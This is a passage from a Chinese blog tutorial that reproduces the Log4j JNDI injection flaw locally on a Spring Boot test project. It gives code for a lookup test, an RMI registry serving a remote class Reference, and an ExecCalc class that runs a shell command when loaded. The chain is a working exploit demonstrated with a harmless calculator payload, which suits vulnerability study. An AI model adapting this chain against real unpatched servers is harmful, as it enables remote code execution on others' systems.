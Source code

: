 首先需要使用低版本的 log4j 包，我们在本地新建一个 Spring Boot 项目，使用 2.5.7 版本的 Spring Boot，可以看到一老的 log4j 是 2.14.1，可以复现漏洞。

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214165545.png)

参考 [Apache Log4j Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)，我们先使用代码在 log 里获取一下 java:vm。

## 本地打印 JVM 基础信息

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214165937.png?x-oss-process=style/yano)

```java
@SpringBootTest
class Log4jApplicationTests {

	private static final Logger logger = LogManager.getLogger(SpringBootTest.class);

	@Test
	void log4j() {
		logger.info("content {}", "${java:vm}");
	}
}
```

可以发现输出是：

```
content Java HotSpot(TM) 64-Bit Server VM (build 25.152-b16, mixed mode)
```

使用 JavaLookup 获取到了 JVM 的相关信息（需要使用 `java` 前缀）。

## 本地获取服务器的打印信息

本地启动一个 RMI 服务：

```java
public class Server {

    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        String url = "http://127.0.0.1:8081/";
        // Reference 需要传入三个参数 (className,factory,factoryLocation)
        // 第一个参数随意填写即可，第二个参数填写我们 http 服务下的类名，第三个参数填写我们的远程地址
        Reference reference = new Reference("ExecCalc", "ExecCalc", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("calc", referenceWrapper);
    }
}
```

ExecCalc 类直接放在根目录，不能申请包名，即不能存在 package xxx。声明后编译的 class 文件函数名称会加上包名从而不匹配。参考 [Java 安全 - RMI-JNDI 注入](https://reader-l.github.io/2021/01/26/Java%E5%AE%89%E5%85%A8-RMI-JNDI%E6%B3%A8%E5%85%A5/)。

```java
public class ExecCalc {
    static {
        try {
            System.out.println("open a Calculator!");
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
